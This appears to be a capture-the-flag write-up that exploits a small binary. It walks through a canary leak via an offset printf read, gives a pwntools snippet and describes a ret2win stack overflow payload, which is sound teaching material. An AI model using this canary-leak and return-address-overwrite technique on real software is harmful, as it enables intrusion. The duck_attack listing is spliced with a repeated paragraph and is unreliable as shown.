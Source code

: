 # Enumeration

First of all, we start with a `checksec`:  

![Screenshot from 2025-03-27 00-38-37](https://github.com/user-attachments/assets/3920eca5-f740-4ad0-ad07-975e511cdbbb)



### Disassembly

Starting with `main()`:

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  duckling(argc, argv, envp);
  return 0;
}

```

As we can see, `main` only calls `duckling()`. Taking a look there.

```c
unsigned __int64 duckling()
{
  char *v1; // [rsp+8h] [rbp-88h]
  _QWORD buf[4]; // [rsp+10h] [rbp-80h] BYREF
  _QWORD v3[11]; // [rsp+30h] [rbp-60h] BYREF
  unsigned __int64 v4; // [rsp+88h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  memset(buf, 0, sizeof(buf));
  memset(v3, 0, 80);
  printf("Quack the Duck!\n\n> ");
  fflush(_bss_start);
  read(0, buf, 0x66uLL);
  v1 = strstr((const char *)buf, "Quack Quack ");
  if ( !v1 )
  {
    error("Where are your Quack Manners?!\n");
    exit(1312);
  }
  printf("Quack Quack %s, ready to fight the Duck?\n\n> ", v1 + 32);
  read(0, v3, 0x6AuLL);
  puts("Did you really expect to win a fight against a Duck?!\n");
  return v4 - __readfsqword(0x28u);
}
```

As we can see, there are 2 buffers, `buf[4]` and `v3[11]` of unknown size so far. The juice of the challenge is these 2 lines:

```c
  read(0, buf, 0x66uLL);
  v1 = strstr((const char *)buf, "Quack Quack ");
  printf("Quack Quack %s, ready to fight the Duck?\n\n> ", v1 + 32);
```

Our first input goes to `buf` and we get a leak of `v1 + 32`. That means we can leak up to `32` from the end of the buffer 
where the string `Quack Quack ` is found in our input string. Luckily, we see that we can leak the `canary` address at such offset when debug.
After that, we can overflow the second buffer and perform a `ret2win`. There is a function called `duck_attack` that prints the flag.

```c
unsigned __int64 duck_attack()
{
  char buf; // [rsp+3h] [rbp-Dh] BYREF
  int fd; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v3; // [rsp+8h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  fd = open("./flag.txt", 0);
  if ( fd < 0 )
  {
    perror("\nError opening flag.txt, please contact an Administrator\n");
    exit(1);
  }
  while ( read(fd, &buf, 1uLL) > 0 )
    fputc(buf, _bss_start);
  close(fd);.
After that, we can overflow the second buffer and perform a `ret2win`. There is a function called `duck_attack` that prints the flag.

```c
unsigned __int64 duck_attack()
{
  char buf; // [rsp+3h] [rbp-Dh] BYREF
  return v3 - __readfsqword(0x28u);
}
```

### Debugging 

Now, to prove all this theory we can check the debugging. 
```
Địa chỉ cao    +----------------+
               | Địa chỉ trở về |
        rbp -> +----------------+
               |Canary[rbp-0x8] |  <-- v4
               +----------------+
               |                |
               |     .....      |  (các biến khác, padding)
               |                |
               +----------------+
               |                |
               |   buf[rbp-0x80]    |  <-- buf[4] bắt đầu từ [rbp-0x80]
               |                |
               +----------------+
               |                |
        rsp -> +----------------+
Địa chỉ thấp
```
![image](https://github.com/user-attachments/assets/543c1298-bbd7-4150-92b8-1616e78584cb)

So the distance between Canary and buf is `0x80-0x8 = 0x78` bytes. But, to override the Canary, we need one more byte so need to pass 121 bytes to get Canary leak.
And then `\x00` is overrided which is the last byte of canary.
```c
  v1 = strstr((const char *)buf, "Quack Quack ");
  printf("Quack Quack %s, ready to fight the Duck?\n\n> ", v1 + 32);
```
Thus, `v1+32=121' and  v1 is the first letter that is found from input. 
So we need to send `89*'A' + "Quack Quack "(12 bytes) = total 101 bytes = 0x65`
```python
r.sendlineafter('> ', b'A'* (0x65 - len('Quack Quack ')) + b'Quack Quack ')

r.recvuntil('Quack Quack ')

canary = u64(r.recv(7).rjust(8, b'\x00'))
```

After have Canary value, we calculate the distance between the second input and the canary as the previous one.
`0x60-0x8= 88 bytes`. This time we dont need to plus 1 byte because we have the canary value.
So the payload is ``88*'A' + Canary + 8 bytes (save rbp) + return address(duck_attack)`.


# Result
![image](https://github.com/user-attachments/assets/60d16b42-810e-4b92-acc2-8eedfdfa18f2)



